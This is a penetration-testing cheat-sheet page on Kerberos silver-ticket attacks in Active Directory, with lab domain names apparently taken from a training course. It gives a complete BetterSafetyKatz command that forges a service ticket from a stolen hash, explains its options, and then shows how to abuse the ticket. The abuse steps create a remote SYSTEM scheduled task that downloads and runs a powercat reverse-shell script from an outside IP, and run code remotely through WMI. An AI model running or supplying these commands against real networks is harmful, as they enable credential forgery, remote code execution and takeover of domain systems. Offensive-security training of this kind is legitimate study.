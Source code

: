 # Silver Ticket

Silver ticket is signed and encrypted by the hash of **service** account which makes it a valid **TGS** ticket.

## Create The Ticket

```powershell
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden 
/User:Administrator /domain:dollarcorp.moneycorp.local
/sid:S-1-5-21-719815819-3726368948-3917688648 
/target:dcorp-dc.dollarcorp.moneycorp.local
/service:CIFS /rc4:e9bb4c3d1327e29093dfecab8c2676f6 
/startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"
```

<table><thead><tr><th width="318">Options</th><th width="431"></th></tr></thead><tbody><tr><td>kerberos::golden</td><td>Name of the module</td></tr><tr><td>/User:Administrator</td><td>Username for which the TGT is generated</td></tr><tr><td>/domain:</td><td>Domain FQDN</td></tr><tr><td>/sid:</td><td>SID of the domain</td></tr><tr><td>/target:</td><td>Target server FQDN</td></tr><tr><td>/service:</td><td>The SPN name of service for which TGS is to be created</td></tr><tr><td>/aes256:</td><td>AES256 keys of the krbtgt account</td></tr><tr><td>/id:500 /groups:512</td><td>Optional User and Group RID</td></tr><tr><td>/ptt</td><td>ptt: inject ticket to current process</td></tr><tr><td>/startoffset:0</td><td>Optional when the ticket is available in minutes. <br>Use negative for a ticket available from past and a larger number for future.</td></tr><tr><td>/endin:600</td><td>Optional ticket lifetime in minutes.  (default <strong>10</strong> years)<br>The default AD setting is 10 hours = 600 minutes</td></tr><tr><td>/renewmax:10080</td><td>Optional ticket lifetime with renewal in minutes. (default is <strong>10</strong> years)<br>The default AD setting is 7 days = 100800</td></tr></tbody></table>

## Abusing Services

### HOST

HOST Service permission allows to create scheduled tasks in remote computers\
The Silver ticket needs to be created with the NT Hash of the target machine

```bash
# Check you have permissions 
schtasks /S some.vuln.pc

#Create scheduled task, first for exe execution, second for powershell reverse shell download
schtasks /create /S dcorp-dc /SC Weekly /RU "NT Authority\SYSTEM" /TN "Job" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://172.16.100.83/powercat.ps1''')'"

#Run created schtask now
schtasks /Run /S dcorp-dc.moneycorp.local /TN "Job"
```

### HOST + RPCSS

With these tickets you can **execute WMI in the victim system**:

```bash
#Check you have enough privileges
Invoke-WmiMethod -class win32_operatingsystem -ComputerName remote.computer.local
#Execute code
Invoke-WmiMethod win32_process -ComputerName $Computer -name create -argumentlist "$RunCommand"

#You can also use wmic
wmic remote.computer.local list full /format:list
```
